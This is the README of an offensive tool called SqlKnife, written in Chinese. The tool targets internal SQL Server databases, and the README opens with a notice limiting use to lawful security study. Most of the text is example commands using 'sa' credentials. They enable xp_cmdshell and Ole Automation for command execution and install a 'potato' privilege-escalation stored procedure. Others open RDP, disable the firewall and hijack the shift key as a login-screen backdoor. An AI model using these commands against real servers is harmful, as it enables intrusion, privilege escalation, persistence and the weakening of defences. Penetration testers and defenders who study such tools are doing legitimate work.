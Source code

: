 # SqlKnife

郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。

## 0x01 介绍

作者：hl0rey

团队：0x727，未来一段时间将陆续开源工具，地址：https://github.com/0x727

定位：内网SQL Server数据库安全检测

语言：C++、C#

功能：在命令行下对SQL Server进行命令执行、提权等安全检测操作

## 0x02 安装

无其他额外依赖

## 0x03 效果展示

### 使用xp_cmshell执行命令

#### 恢复xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix

![](img/Snipaste_2021-08-03_10-46-08.png)

![Snipaste_2021-08-03_10-46-29](img/Snipaste_2021-08-03_10-46-29.png)

#### 执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami

![Snipaste_2021-08-03_10-47-04](img/Snipaste_2021-08-03_10-47-04.png)

#### 禁用xp_cmdshell

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove

![Snipaste_2021-08-03_10-47-56](img/Snipaste_2021-08-03_10-47-56.png)


### 使用Ole Automation Procedures执行命令

无回显，不好用

#### 恢复Ole Automation Procedures

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix

![Snipaste_2021-08-03_10-55-46](img/Snipaste_2021-08-03_10-55-46.png)

#### 执行程序

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe

![Snipaste_2021-08-03_10-55-46](img/Snipaste_2021-08-03_10-55-46.png)

![Snipaste_2021-08-03_10-56-34](img/Snipaste_2021-08-03_10-56-34.png)

### 开RDP，关防火墙加规则（开RDP时自动加），劫持shift键

权限足够的前提下，基于注册表的操作

#### 开启RDP

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp

![Snipaste_2021-08-03_11-36-43](img/Snipaste_2021-08-03_11-36-43.png)

![Snipaste_2021-08-03_11-36-57](img/Snipaste_2021-08-03_11-36-57.png)

#### 关防火墙

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw

（可能不好用，可能是因为注册表位置参考windows10的原因）

![Snipaste_2021-08-03_11-42-58](img/Snipaste_2021-08-03_11-42-58.png)

#### 劫持shift键

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift

![Snipaste_2021-08-03_11-45-54](img/Snipaste_2021-08-03_11-45-54.png)

![Snipaste_2021-08-03_11-29-11](img/Snipaste_2021-08-03_11-29-11.png)

### PotatoInSQL

将土豆提权(--dbup)作为存储过程安装到数据库，然后调用。

#### 安装.net3.5版本的potatoinsql

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3

![Snipaste_2021-08-03_11-17-47](img/Snipaste_2021-08-03_11-17-47.png)

![Snipaste_2021-08-03_11-18-02](img/Snipaste_2021-08-03_11-18-02.png)



#### 利用土豆执行命令

SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami

![Snipaste_2021-08-03_11-28-46](img/Snipaste_2021-08-03_11-28-46.png)

![Snipaste_2021-08-03_11-29-11](img/Snipaste_2021-08-03_11-29-11.png)

### 启用/还原配置功能

![Snipaste_2021-08-03_11-29-35](img/Snipaste_2021-08-03_11-29-35.png)

做完操作之后把配置和CLR程序集清理掉。

--fix参数和--remove参数只涉及--xpcmd、--oacreate、--clrcmd、--clrdexec、--dbup


### 指定不同版本clr的payload

--3/--4 如果不加这个参数，默认是.net4版本的payload

## 0x04 使用方法 

| 语法                                                         | 功能                                                        |
| :----------------------------------------------------------- | :---------------------------------------------------------- |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --fix | 启用xp_cmdshell，其他fix类型功能都是这个格式                |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd -c whoami | 使用xp_cmdshell执行命令，其他命令执行功能也是这个格式       |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --xpcmd --remove | 禁用xp_cmdshell，其他remove类型功能也是这个格式             |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --oacreate --fix | 恢复Ole Automation Procedures                               |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123  --oacreate -c calc.exe | Ole Automation Procedures执行程序                           |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --openrdp | 开启RDP                                                     |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --disfw | 关闭防火墙                                                  |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --shift | 劫持shift键                                                 |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup --fix  --3 | 安装.net3.5的甜土豆提权存储过程，如果安装.net4.0的话就是--4 |
| SqlKnife.exe -H 192.168.49.143 -P 1433 -u sa -p admin@123 --dbup -c whoami | 利用甜土豆执行命令                                          |

## 0x06 实现原理

使用windows ADO连接SQL server数据库无需其他额外依赖，使用C#编写SQL CLR利用payload。

## 0x07 新增功能

无

## 0x08 反馈


SqlKnife 是一个免费且开源的项目，我们欢迎任何人为其开发和进步贡献力量。

* 在使用过程中出现任何问题，可以通过 issues 来反馈。
* Bug 的修复可以直接提交 Pull Request 到 dev 分支。
* 如果是增加新的功能特性，请先创建一个 issue 并做简单描述以及大致的实现方法，提议被采纳后，就可以创建一个实现新特性的 Pull Request。
* 欢迎对说明文档做出改善，帮助更多的人使用SqlKnife。
* 贡献代码请提交 PR 至 dev 分支，master 分支仅用于发布稳定可用版本。

*提醒：和项目相关的问题最好在 issues 中反馈，这样方便其他有类似问题的人可以快速查找解决方法，并且也避免了我们重复回答一些问题。*
